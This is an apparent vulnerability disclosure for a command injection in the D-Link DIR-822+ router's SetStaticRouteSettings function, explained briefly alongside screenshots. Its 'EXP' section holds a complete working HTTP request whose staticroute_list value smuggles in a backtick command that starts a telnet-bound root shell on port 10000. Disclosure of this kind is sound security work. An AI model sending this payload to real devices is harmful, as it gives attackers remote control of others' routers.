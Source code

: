 # DIR-822+ Command Injection

## Overview

D-Link DIR-822+ V1.0.2 was found to contain a command injection in `SetStaticRouteSettings` function.  allows remote attackers to execute arbitrary commands via shell

![image-20231221212125407](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212129179.png)

![image-20231221212129179](D:\typora 图片\image-20231221212129179.png)

## Vulnerability details

![image-20231221214813987](D:\typora 图片\image-20231221214813987.png)

Use ’，‘ to segment data from the `staticroute list` and pass in the `sub_437028` function

![image-20231221214821593](D:\typora 图片\image-20231221214821593.png)

This part of the data was directly passed in `FCGI_popen` without any filtering

![image-20231221215626633](D:\typora 图片\image-20231221215626633.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

![image-20231221220509945](D:\typora 图片\image-20231221220509945.png)

Based on the cause of the vulnerability, we only need to use commas to separate three addresses and the command to be executed. The final constructed EXP is as follows:

## EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 4EDFBBC3845CEF88B0CC7B5A5B9419EB 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Staticroute.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=VtVTeClk; PrivateKey=990D6EA08F8E8583354AD9D96CB35450; timeout=56
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"192.168.1.1,255.255.255.255,192.168.0.1,`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`"}}
```

![image-20231221220640871](D:\typora 图片\image-20231221220640871.png)

![image-20231221220705779](D:\typora 图片\image-20231221220705779.png)

